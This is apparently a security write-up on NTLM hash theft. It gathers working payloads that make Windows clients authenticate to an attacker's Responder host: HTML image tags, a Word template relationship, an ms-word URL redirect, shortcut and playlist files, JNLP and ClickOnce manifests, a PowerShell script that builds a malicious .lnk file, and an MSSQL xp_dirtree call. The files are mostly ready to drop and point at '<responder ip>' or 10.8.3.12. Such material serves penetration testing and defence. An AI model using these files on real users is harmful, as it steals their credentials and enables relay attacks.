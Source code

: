 ## Internet Explorer & Edge

While the `dir` command can be used to leak hashes, it is not very convenient method for an attacker. A more likely scenario would be if the attacker entices the victim to visit the attacker's website or open a specially crafted file. As is widely known, Internet Explorer can leak NetNTLM hashes to websites containing embedded content (eg, images, stylesheets) loaded from a UNC path. This also applies to Microsoft Edge, which can be abused in the same way. This can be tested using the following HTML:

**_[leak.htm](https://www.datocms-assets.com/21957/1592981084-leak.htm):_**

```html
<!DOCTYPE html>
<html>
	<img src="file://<responder ip>/leak/leak.png"/>
</html>
```

## Office

Another well-known attack is by abusing Office. Office documents can contain links to external content that when pointed to a network share can result in disclosing NetNTLM hashes. For example, a Word document can contain a link to a template file located on a share. The template file can be set via the `word\_rels\settings.xml.rels` file located in the `DOCX` file.

_**[word_rels\settings.xml.rels](https://www.datocms-assets.com/21957/1592981117-leak.docx):**_

```html
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file://<responder ip>/leak/Template.dotx" TargetMode="External"/>
</Relationships>
```

![](https://www.datocms-assets.com/21957/1592477905-wordntlmleaktemplate.png) 
_Figure 2: leak NetNTLM hashes using Word_

It should be noted that this particular trick doesn't work if the Word document is opened in Protected View. This is normally the case if the document is opened from a website or opened from an email message.

## Living off the land

If no mitigations have been applied, it is not very hard to trick Windows to leak hashes. Essentially any document format that allows loading of external files from UNC paths should be affected by this flaw. To get an idea how easy it is to find such methods, a number of them are listed below. This is by far an exhaustive list, it just demonstrates how prevalent this issue is. Of course an attacker still needs to entice the user into performing a certain action.

## URL handlers

Besides abusing files there are other ways to force applications to open files from (rogue) network shares. One such way is with the use of URL handlers. A large number of applications register custom URL schemes. For example, Word registers the `ms-word` URL scheme. This scheme accepts a path that can be used to cause Word to try to open a file from a UNC path. Consequently, the `ms-word` URL scheme can be used to steal NetNTLM hashes. Other URL handlers can be abused in a similar manner.

```html
<!DOCTYPE html>
<html>
	<script>
		location.href = 'ms-word:ofe|u|\\<responder ip>\leak\leak.docx';
	</script>
</html>
```

## Internet Shortcut

Another trick is to just create a shortcut to the rogue share. Windows has a special `URL` file type that is used to create shortcuts to webpages. A simple version looks something like this:

**_[leak.url](https://www.datocms-assets.com/21957/1592981144-leak.url):_**

```
[InternetShortcut]
URL=file://<responder ip>/leak/leak.html
```

It is possible to assign an icon to this shortcut. When Windows Explorer encounters a URL file it will automatically parse it to see if there is an icon associated to the shortcut. Setting the icon to an UNC path will cause Windows Explorer to try and load it, again leaking hashes. This happens when the user just browses to the folder containing the URL file. So if an attacker managers to drop a URL file in the user's download folder, hashes are leaked every time the user views the download folder in Explorer. Similar attacks are possible using other shortcut type of file formats, which is also useful with USB drops.

**_leak2.url:_**

```
[InternetShortcut]
URL=https://securify.nl
IconIndex=0
IconFile=\\<responder ip>\leak\leak.ico
```

## Windows Media Player

Media players tend to support many audio and video file formats and playlists. Playlists can be seen as a collection of links to external files, including files located on network shares. Naturally this can be abused to steal NetNTLM hashes. Windows Media Player is no exception, opening a specially crafted playlist in Windows Media Player can potentially disclose hashes to an attacker.

_**[leak.m3u](https://www.datocms-assets.com/21957/1592981177-leak.m3u):**_

```
#EXTM3U
#EXTINF:1337, Leak
\\<responder ip>\leak.mp3
```

_**[leak.asx](https://www.datocms-assets.com/21957/1592981202-leak.asx):**_

```html
<asx version="3.0">
	<title>Leak</title>
	<entry>
		<title></title>
		<ref href="file://<responder ip>/leak/leak.wma"/>
	</entry>
</asx>
```

_**[leak.wax]:**
```sh
https://10.8.3.12/test
file://\\10.8.3.12/steal/file
```
## Java Web Start

Many enterprise still use Java applications. There is a good chance that they also have Java Web Start enabled. Java Web Start allows users to start Java applications from the internet using a browser. A Java Web Start application is launched by opening a JNLP file. JNLP files are XML files that define how the application should be started. It also contains links to one or more JAR files. These JAR files could be located on network shares thus are a good target for leaking hashes.

_**[leak.jnlp](https://www.datocms-assets.com/21957/1592981769-leak.jnlp):**_

```html
<?xml version="1.0" encoding="UTF-8"?>
<jnlp spec="1.0+" codebase="" href="">
	<resources>
		<jar href="file://<responder ip>/leak/leak.jar"/>
	</resources>
	<application-desc/>
</jnlp>
```

It should be noted that while JNLP files can be opened from a browser they are block by Microsoft Outlook on Windows. JNLP files are allowed on Outlook for macOS though.

![](https://www.datocms-assets.com/21957/1592477933-outlookblocksjnlp.png) _Figure 3: JNLP files are blocked in Outlook_

## ClickOnce

.NET's counterpart to Java Web Start is named ClickOnce. It works in a similar manner, applications are started via a ClickOnce deployment manifest file. These files can also contain UNC paths, similar to Java Web Start. Remarkably, ClickOnce deployment manifests are not blocked by Outlook.

![](https://www.datocms-assets.com/21957/1592477936-outlookclickonceallowed.png) _Figure 4: ClickOnce deployment manifest files are not blocked in Outlook_

_**[leak.application](https://www.datocms-assets.com/21957/1592982308-leak.application):**_

```html
<?xml version="1.0" encoding="utf-8"?>
<asmv1:assembly xsi:schemaLocation="urn:schemas-microsoft-com:asm.v1 assembly.adaptive.xsd" manifestVersion="1.0" xmlns:dsig="http://www.w3.org/2000/09/xmldsig#" xmlns="urn:schemas-microsoft-com:asm.v2" xmlns:asmv1="urn:schemas-microsoft-com:asm.v1" xmlns:asmv2="urn:schemas-microsoft-com:asm.v2" xmlns:xrml="urn:mpeg:mpeg21:2003:01-REL-R-NS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<assemblyIdentity name="Leak.app" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<description asmv2:publisher="Leak" asmv2:product="Leak" asmv2:supportUrl="" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<deployment install="false" mapFileExtensions="true" trustURLParameters="true" />
	<dependency>
		<dependentAssembly dependencyType="install" codebase="file://<responder ip>/leak/Leak.exe.manifest" size="32909">
			<assemblyIdentity name="Leak.exe" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" type="win32" />
			<hash>
				<dsig:Transforms>
					<dsig:Transform Algorithm="urn:schemas-microsoft-com:HashTransforms.Identity" />
				</dsig:Transforms>
				<dsig:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1" />
				<dsig:DigestValue>ESZ11736AFIJnp6lKpFYCgjw4dU=</dsig:DigestValue>
			</hash>
		</dependentAssembly>
	</dependency>
</asmv1:assembly>
```

_**[Malicious ink (SMB)]:**
- Create a malicious that connect to our responder .
```sh
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Malicious.lnk")
$lnk.TargetPath = "\\10.8.3.12\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the dir this file lives in will perform an authentication request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

_**[MSSQL]:**
```sh
EXEC master.sys.xp_dirtree '\\10.8.3.12\myshare',1,1
smbserver.py -smb2support share .
```

- Tool :
https://github.com/Greenwolf/ntlm_theft